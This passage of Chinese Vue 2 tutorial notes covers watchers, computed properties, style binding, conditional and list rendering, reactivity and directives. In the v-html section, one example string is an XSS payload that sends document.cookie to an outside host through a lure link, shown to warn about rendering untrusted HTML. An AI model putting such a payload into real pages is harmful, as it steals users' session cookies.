				/* isHot(newValue,oldValue){
					console.log('isHot被修改了',newValue,oldValue,this)
				} */
			}
		})

		//正常写法
		/* vm.$watch('isHot',{
			immediate:true, //初始化时让handler调用一下
			deep:true,//深度监视
			handler(newValue,oldValue){
				console.log('isHot被修改了',newValue,oldValue)
			}
		}) */

		//简写
		/* vm.$watch('isHot',(newValue,oldValue)=>{
			console.log('isHot被修改了',newValue,oldValue,this)
		}) */

	</script>
</html>
```


### 计算属性与监视属性的对比

computed和watch之间的区别：
1 computed能完成的功能，watch都可以完成。
2 watch能完成的功能，computed不一定能完成，例如：watch可以进行异步操作。


两个重要的小原则：
1 所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。
2 所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，这样this的指向才是vm 或 组件实例对象。


案例

使用监视属性:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_watch实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
				fullName:'张-三'
			},
			watch:{
				firstName(val){
					this.fullName = val + '-' + this.lastName				},
				lastName(val){
					this.fullName = this.firstName + '-' + val
				}
			}
		})
	</script>
</html>
```

使用计算属性的版本:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_计算属性实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
			},
			computed:{
				fullName(){
					console.log('get被调用了')
					return this.firstName + '-' + this.lastName
				}
			}
		})
	</script>
</html>
```


可以看出这个案例中, 计算属性比监视属性要简洁 . 

如果结果不能简单通过返回值返回的时候, 比如异步任务, 此时需要使用监视属性

比如: 要求 firstName 修改后一秒才刷新页面

```javascript
Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

const vm = new Vue({
    el:'#root',
    data:{
        firstName:'张',
        lastName:'三',
        fullName:'张-三'
    },
    watch:{
        firstName(val){
            // setTimeout 管理的函数是由 js引擎的定时任务管理模块调用的, 不是由vue管理的
            // 如果使用普通函数, this指向 windows
            // 所以这里要使用箭头函数, 箭头函数没有自己的 this, 向外找就找到了 firstName() 函数的this, 也就是 vm
            setTimeout(()=>{
                console.log(this)
                this.fullName = val + '-' + this.lastName
            },1000);
        },
        lastName(val){
            this.fullName = this.firstName + '-' + val
        }
    }
})
```


## 10 class 与 style 绑定  

### 1 理解

1 在应用界面中, 某个(些)元素的样式是变化的

2 class/style 绑定就是专门用来实现动态样式效果的技术


### 2 class 绑定

1 

```
:class='xxx'
```

2 表达式是字符串: 'classA'

3 表达式是对象: {classA:isA, classB: isB}

4 表达式是数组: ['classA', 'classB']


### 3 style 绑定

1 

```
:style="{ color: activeColor, fontSize: fontSize + 'px' }"
```

2 其中 activeColor/fontSize 是 data 属性


示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>绑定样式</title>
		<style>
			.basic{
				width: 400px;
				height: 100px;
				border: 1px solid black;
			}
			
			.happy{
				border: 4px solid red;;
				background-color: rgba(255, 255, 0, 0.644);
				background: linear-gradient(30deg,yellow,pink,orange,yellow);
			}
			.sad{
				border: 4px dashed rgb(2, 197, 2);
				background-color: gray;
			}
			.normal{
				background-color: skyblue;
			}

			.atguigu1{
				background-color: yellowgreen;
			}
			.atguigu2{
				font-size: 30px;
				text-shadow:2px 2px 10px red;
			}
			.atguigu3{
				border-radius: 20px;
			}
		</style>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
			绑定样式：
					1. class样式
								写法:class="xxx" xxx可以是字符串、对象、数组。
										字符串写法适用于：类名不确定，要动态获取。
										对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
										数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。
					2. style样式
								:style="{fontSize: xxx}"其中xxx是动态值。
								:style="[a,b]"其中a、b是样式对象。
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
			<div class="basic" :class="mood" @click="changeMood">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
			<div class="basic" :class="classArr">{{name}}</div> <br/><br/>

			<!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
			<div class="basic" :class="classObj">{{name}}</div> <br/><br/>

			<!-- 绑定style样式--对象写法 -->
			<div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
			<!-- 绑定style样式--数组写法 -->
			<div class="basic" :style="styleArr">{{name}}</div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		
		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				mood:'normal',
				classArr:['atguigu1','atguigu2','atguigu3'],
				classObj:{
					atguigu1:false,
					atguigu2:false,
				},
				styleObj:{
					fontSize: '40px',
					color:'red',
				},
				styleObj2:{
					backgroundColor:'orange'
				},
				styleArr:[
					{
						fontSize: '40px',
						color:'blue',
					},
					{
						backgroundColor:'gray'
					}
				]
			},
			methods: {
				changeMood(){
					const arr = ['happy','sad','normal']
					const index = Math.floor(Math.random()*3)
					this.mood = arr[index]
				}
			},
		})
	</script>
	
</html>
```


## 11 条件渲染

条件渲染：
1 v-if
写法：
(1) v-if="表达式" 
(2) v-else-if="表达式"
(3) v-else="表达式"

适用于：切换频率较低的场景。
特点：不展示的DOM元素直接被移除。
注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。如果出现打断, 前面的还可以生效, 打断元素后面的无效

2 v-show
写法：v-show="表达式"
适用于：切换频率较高的场景。
特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉 `display:none`

3 备注：使用v-if的时，元素可能无法获取到，而使用v-show一定可以获取到。


2 比较 v-if 与 v-show

1 如果需要频繁切换 v-show 较好

2 当条件不成立时, v-if 的所有子节点不会解析(项目中使用)


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>条件渲染</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
			<!-- 使用v-show做条件渲染 -->
			<h2 v-show="false">欢迎来到{{name}}</h2>
			<h2 v-show="1 === 1">欢迎来到{{name}}</h2>

			<!-- 使用v-if做条件渲染 -->
			<h2 v-if="false">欢迎来到{{name}}</h2>
			<h2 v-if="1 === 1">欢迎来到{{name}}</h2>

			<!-- v-else和v-else-if -->
			<div v-if="n === 1">Angular</div>
			<div v-else-if="n === 2">React</div>
            <!-- 中间如果被打断, 下面的 v-else-if 和 v-else 将失效 -->
            <!-- <div> 呵呵 </div> -->
			<div v-else-if="n === 3">Vue</div>
			<div v-else>哈哈</div> -->

			<!-- v-if与template的配合使用, 这样可以避免下面的每个标签都添加 v-if  -->
			<template v-if="n === 1">
				<h2>你好</h2>
				<h2>尚硅谷</h2>
				<h2>北京</h2>
			</template>

		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:0
			}
		})
	</script>
</html>
```


## 12 列表渲染  

v-for指令:
1 用于展示列表数据
2 语法：v-for="(item, index) in xxx" :key="yyy"
3 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）


### 1 基本列表

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>基本列表</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 遍历数组 -->
			<h2>人员列表（遍历数组）</h2>
			<ul>
				<li v-for="(p,index) of persons" :key="index">
					{{p.name}}-{{p.age}}
				</li>
			</ul>

			<!-- 遍历对象 -->
			<h2>汽车信息（遍历对象）</h2>
			<ul>
                <!-- 注意前面是对象属性的 value , 后面是 key -->
				<li v-for="(value,k) of car" :key="k">
					{{k}}-{{value}}
				</li>
			</ul>

			<!-- 遍历字符串 -->
			<h2>测试遍历字符串（用得少）</h2>
			<ul>
				<li v-for="(char,index) of str" :key="index">
					{{char}}-{{index}}
				</li>
			</ul>
			
			<!-- 遍历指定次数 -->
			<h2>测试遍历指定次数（用得少）</h2>
			<ul>
				<li v-for="(number,index) of 5" :key="index">
					{{index}}-{{number}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'张三',age:18},
						{id:'002',name:'李四',age:19},
						{id:'003',name:'王五',age:20}
					],
					car:{
						name:'奥迪A8',
						price:'70万',
						color:'黑色'
					},
					str:'hello'
				}
			})
		</script>
</html>
```


### 2 key 的原理

面试题：react、vue中的key有什么作用？（key的内部原理）

1 虚拟DOM中key的作用：
key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 
随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：


2 对比规则：
(1) 旧虚拟DOM中找到了与新虚拟DOM相同的key：
① 若虚拟DOM中内容没变, 直接使用之前的真实DOM！
② 若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。

(2) 旧虚拟DOM中未找到与新虚拟DOM相同的key
创建新的真实DOM，随后渲染到到页面。


3 用index作为key可能会引发的问题：
1 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。

2 如果结构中还包含输入类的DOM：
会产生错误DOM更新 ==> 界面有问题。


4 开发中如何选择key?

1 最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。

2 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，
使用index作为key是没有问题的。

3 如果没有设置 key, 则vue会自动将inde作为key


示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>key的原理</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<!-- 遍历数组 -->
			<h2>人员列表（遍历数组）</h2>
			<button @click.once="add">添加一个老刘</button>
			<ul>
                <!-- key 属性在模板中存在, vue使用了key, 使用之后就删除了, 所以在真实 dom 中没有key属性 -->
                <!-- 所以模板中所有的元素的 key 属性都被vue使用并删除了, 所以vue的模板中一般元素不要写 key 属性-->
				<li v-for="(p,index) of persons" :key="index">
					{{p.name}}-{{p.age}}
					<input type="text">
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'张三',age:18},
						{id:'002',name:'李四',age:19},
						{id:'003',name:'王五',age:20}
					]
				},
				methods: {
					add(){
						const p = {id:'004',name:'老刘',age:40}
						this.persons.unshift(p)
					}
				},
			})
		</script>
</html>
```






### 3 列表过滤

#### 用watch实现

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>列表过滤</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<input type="text" placeholder="请输入名字" v-model="keyWord">
			<ul>
				<li v-for="(p,index) of filPerons" :key="index">
					{{p.name}}-{{p.age}}-{{p.sex}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					],
					filPerons:[]
				},
				watch:{
					keyWord:{
						immediate:true,
						handler(val){
							this.filPerons = this.persons.filter((p)=>{
								return p.name.indexOf(val) !== -1
							})
						}
					}
				}
			})
		</script>
    </body>
</html>
```


#### 使用computed实现

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>列表过滤</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<input type="text" placeholder="请输入名字" v-model="keyWord">
			<ul>
				<li v-for="(p,index) of filPerons" :key="index">
					{{p.name}}-{{p.age}}-{{p.sex}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
            
			new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					]
				},
				computed:{
					filPerons(){
						return this.persons.filter((p)=>{
							return p.name.indexOf(this.keyWord) !== -1
						})
					}
				}
			}) 
		</script>
    </body>
</html>
```


### 4 列表排序

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>列表排序</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<input type="text" placeholder="请输入名字" v-model="keyWord">
			<button @click="sortType = 2">年龄升序</button>
			<button @click="sortType = 1">年龄降序</button>
			<button @click="sortType = 0">原顺序</button>
			<ul>
				<li v-for="(p,index) of filteredPersons" :key="p.id">
					{{p.name}}-{{p.age}}-{{p.sex}}
					<input type="text">
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			new Vue({
				el:'#root',
				data:{
					keyWord:'',
					sortType:0, //0原顺序 1降序 2升序
					persons:[
						{id:'001',name:'马冬梅',age:30,sex:'女'},
						{id:'002',name:'周冬雨',age:31,sex:'女'},
						{id:'003',name:'周杰伦',age:18,sex:'男'},
						{id:'004',name:'温兆伦',age:19,sex:'男'}
					]
				},
				computed:{
					filteredPersons(){
						const arr = this.persons.filter((p)=>{
							return p.name.indexOf(this.keyWord) !== -1
						})
						//判断一下是否需要排序
						if(this.sortType){
							arr.sort((p1,p2)=>{
								return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
							})
						}
						return arr
					}
				}
			}) 

		</script>
	</body>
</html>
```


### 5 更新时的一个问题

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>更新时的一个问题</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<button @click="updateMei">更新马冬梅的信息</button>
			<ul>
				<li v-for="(p,index) of persons" :key="p.id">
					{{p.name}}-{{p.age}}-{{p.sex}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			const vm = new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'马冬梅',age:30,sex:'女'},
						{id:'002',name:'周冬雨',age:31,sex:'女'},
						{id:'003',name:'周杰伦',age:18,sex:'男'},
						{id:'004',name:'温兆伦',age:19,sex:'男'}
					]
				},
				methods: {
					updateMei(){
						// this.persons[0].name = '马老师'   //奏效
						// this.persons[0].age = 50     	//奏效
						// this.persons[0].sex = '男'       //奏效
                        
						// this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} //不奏效
						this.persons.splice(0,1,{id:'001',name:'马老师',age:50,sex:'男'})
					}
				}
			}) 

		</script>
</html>
```


### 6 Vue监测数据改变的原理 对象

示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>学校名称：{{name}}</h2>
			<h2>学校地址：{{address}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				address:'北京',
				student:{
					name:'tom',
					age:{
						rAge:40,
						sAge:29,
					},
					friends:[
						{name:'jerry',age:35}
					]
				}
			}
		})
	</script>
</html>
```


vm中的 _data 是由 data 经过加工后赋值的

1 加工

```json
data:{
	name: "aaa",
	address: "bbb"
}
```

加工为代理对象


2 赋值

```javascript
vm._data = data
```


### 7 模拟一个数据监测

```javascript
let data = {
    name:'尚硅谷',
    address:'北京',
}

//创建一个监视的实例对象，用于监视data中属性的变化
const obs = new Observer(data)		
console.log(obs)	

//准备一个vm实例对象
let vm = {}
vm._data = data = obs

function Observer(obj){
    //汇总对象中所有的属性形成一个数组
    const keys = Object.keys(obj)
    //遍历
    keys.forEach((k)=>{
        Object.defineProperty(this,k,{
            get(){
                return obj[k]
            },
            set(val){
                console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
                obj[k] = val
            }
        })
    })
}
```

上面的示例只做了一层代理, vue 通过递归, 对对象进行了递归的代理, 深层的字段也可以监控


### 8 Vue.set的使用

给对象添加响应式属性

```javascript
Vue.set(this.student,'sex','男')
vm.$set(this.student,'sex','男')
```

注意: 这个api不允许在 vm 和 data 上添加响应式属性,只能给data内的对象添加响应式属性


完整示例

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="addSex">添加一个性别属性，默认值是男</button>
			<h2>姓名：{{student.name}}</h2>
			<h2>年龄：{{student.age}}</h2>
			<h2 v-if="student.sex">性别：{{student.sex}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age: 20
				}
			},
			methods: {
				addSex(){
					// Vue.set(this.student,'sex','男')
					this.$set(this.student,'sex','男')
				}
			}
		})
	</script>
</html>
```


### 9 Vue监测数据改变的原理 数组

js中影响数组元素的方法有 push pop shift unshift splice sort reverse , 其他的比如 filter 是不会影响原数组的

原理: vue 对array上的这几个方法进行了包装, 已经不是 js中的 Array的方法了

```javascript
vm._data.student.hobby.poush === Array.prototype.push // false
```

 vue重新实现的这些方法做了两件事:

1 调用原生js的方法

2 通知视图更新


所以在 vue中变更数组不要直接使用下标

```javascript
vm._data.student.hobby[1] = "xxx"
```

这样是无效的, 要使用 push pop shift unshift splice sort reverse 这些方法进行变更

也可以使用 Vue.set,或者 vm.$set  如 

```javascript
Vue.set(vm._data.student.hobby, 1, "aaa")
```


### 10 总结Vue数据监测

Vue监视数据的原理：
1 vue会监视data中所有层次的数据。


2 如何监测对象中的数据？
通过setter实现监视，且要在new Vue时就传入要监测的数据。
(1) 对象中后追加的属性，Vue默认不做响应式处理
(2) 如需给后添加的属性做响应式，请使用如下API：
Vue.set(target，propertyName/index，value) 或
vm.$set(target，propertyName/index，value)


3 如何监测数组中的数据？
通过包裹数组更新元素的方法实现，本质就是做了两件事：
(1) 调用原生对应的方法对数组进行更新。
(2) 重新解析模板，进而更新页面。


4 在Vue修改数组中的某个元素一定要用如下方法：
1 使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
2 Vue.set() 或 vm.$set()


特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！


5 数据劫持

将原始的 data 修改为响应式的对象 vm._data ( 将每个属性通过响应式 getter setter 代理 )的过程叫做数据劫持


示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>总结数据监视</title>
		<style>
			button{
				margin-top: 10px;
			}
		</style>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="student.age++">年龄+1岁</button> <br/>
			<button @click="addSex">添加性别属性，默认值：男</button> <br/>
			<button @click="student.sex = '未知' ">修改性别</button> <br/>
			<button @click="addFriend">在列表首位添加一个朋友</button> <br/>
			<button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
			<button @click="addHobby">添加一个爱好</button> <br/>
			<button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
			<button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
			<h3>姓名：{{student.name}}</h3>
			<h3>年龄：{{student.age}}</h3>
			<h3 v-if="student.sex">性别：{{student.sex}}</h3>
			<h3>爱好：</h3>
			<ul>
				<li v-for="(h,index) in student.hobby" :key="index">
					{{h}}
				</li>
			</ul>
			<h3>朋友们：</h3>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:18,
					hobby:['抽烟','喝酒','烫头'],
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				addSex(){
					// Vue.set(this.student,'sex','男')
					this.$set(this.student,'sex','男')
				},
				addFriend(){
					this.student.friends.unshift({name:'jack',age:70})
				},
				updateFirstFriendName(){
					this.student.friends[0].name = '张三'
				},
				addHobby(){
					this.student.hobby.push('学习')
				},
				updateHobby(){
					// this.student.hobby.splice(0,1,'开车')
					// Vue.set(this.student.hobby,0,'开车')
					this.$set(this.student.hobby,0,'开车')
				},
				removeSmoke(){
					this.student.hobby = this.student.hobby.filter((h)=>{
						return h !== '抽烟'
					})
				}
			}
		})
	</script>
</html>
```


## 13 收集表单数据

收集表单数据：
若：`<input type="text"/>`，则v-model收集的是value值，用户输入的就是value值。
若：`<input type="radio"/>`，则v-model收集的是value值，且要给标签配置value值。
若：`<input type="checkbox"/>`

1 没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）


2 配置input的value属性:
(1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
(2)v-model的初始值是数组，那么收集的的就是value组成的数组


备注：v-model的三个修饰符：
lazy：失去焦点再收集数据
number：输入字符串转为有效的数字
trim：输入首尾空格过滤


示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>收集表单数据</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<form @submit.prevent="demo">
				账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
				密码：<input type="password" v-model="userInfo.password"> <br/><br/>
				年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
				性别：
				男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
				女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
				爱好：
				学习<input type="checkbox" v-model="userInfo.hobby" value="study">
				打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
				吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
				<br/><br/>
				所属校区
				<select v-model="userInfo.city">
					<option value="">请选择校区</option>
					<option value="beijing">北京</option>
					<option value="shanghai">上海</option>
					<option value="shenzhen">深圳</option>
					<option value="wuhan">武汉</option>
				</select>
				<br/><br/>
				其他信息：
				<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
				<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="http://www.atguigu.com">《用户协议》</a>
				<button>提交</button>
			</form>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		new Vue({
			el:'#root',
			data:{
				userInfo:{
					account:'',
					password:'',
					age:18,
					sex:'female',
					hobby:[],
					city:'beijing',
					other:'',
					agree:''
				}
			},
			methods: {
				demo(){
					console.log(JSON.stringify(this.userInfo))
				}
			}
		})
	</script>
</html>
```


## 14 过滤器

定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
语法：
1 注册过滤器：

全局过滤器

```javascript
Vue.filter(name,callback)
```

```javascript
Vue.filter('mySlice',function(value){
    return value.slice(0,4)
})
```

 或 

局部过滤器

```javascript
new Vue{filters:{}}
```

```javascript
new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
                // 第一个参数固定是管道符传递过来的参数, 后面的参数可以设置默认值
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})
```

2 使用过滤器：`{{ xxx | 过滤器名}}`  或  `v-bind:属性 = "xxx | 过滤器名"`


备注：
1 过滤器也可以接收额外参数、多个过滤器也可以串联
2 并没有改变原本的数据, 是产生新的对应的数据


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>过滤器</title>
		<script type="text/javascript" src="../js/vue.js"></script>
		<script type="text/javascript" src="../js/dayjs.min.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>显示格式化后的时间</h2>
			<!-- 计算属性实现 -->
			<h3>现在是：{{fmtTime}}</h3>
			<!-- methods实现 -->
			<h3>现在是：{{getFmtTime()}}</h3>
			<!-- 过滤器实现 -->
			<h3>现在是：{{time | timeFormater}}</h3>
			<!-- 过滤器实现（传参） -->
			<h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
			<h3 :x="msg | mySlice">尚硅谷</h3>
		</div>

		<div id="root2">
			<h2>{{msg | mySlice}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false
		//全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})
		
		new Vue({
			el:'#root',
			data:{
				time:1621561377603, //时间戳
				msg:'你好，尚硅谷'
			},
			computed: {
				fmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			methods: {
				getFmtTime(){
					return dayjs(this.time).format('YYYY年MM月DD日 HH:mm:ss')
				}
			},
			//局部过滤器
			filters:{
				timeFormater(value,str='YYYY年MM月DD日 HH:mm:ss'){
					// console.log('@',value)
					return dayjs(value).format(str)
				}
			}
		})

		new Vue({
			el:'#root2',
			data:{
				msg:'hello,atguigu!'
			}
		})
	</script>
</html>
```


## 15 内置指令

我们学过的指令：
v-bind	: 单向绑定解析表达式, 可简写为 :xxx
v-model	: 双向数据绑定
v-for  	: 遍历数组/对象/字符串
v-on   	: 绑定事件监听, 可简写为@
v-if 	 	: 条件渲染（动态控制节点是否存存在）
v-else 	: 条件渲染（动态控制节点是否存存在）
v-show 	: 条件渲染 (动态控制节点是否展示)


### 1 v-text 指令

1 作用：向其所在的节点中渲染文本内容。
2 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-text指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-text="name"></div>
			<div v-text="str"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>'
			}
		})
	</script>
</html>
```


### 2 v-html 指令

1 作用：向指定节点中渲染包含html结构的内容。


2 与插值语法的区别：
(1) v-html会替换掉节点中所有的内容，{{xx}}则不会。
(2) v-html可以识别html结构。


3 严重注意：v-html有安全性问题！！！！
(1) 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
(2) 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```


### 3 v-cloak指令

 v-cloak指令（没有值）：
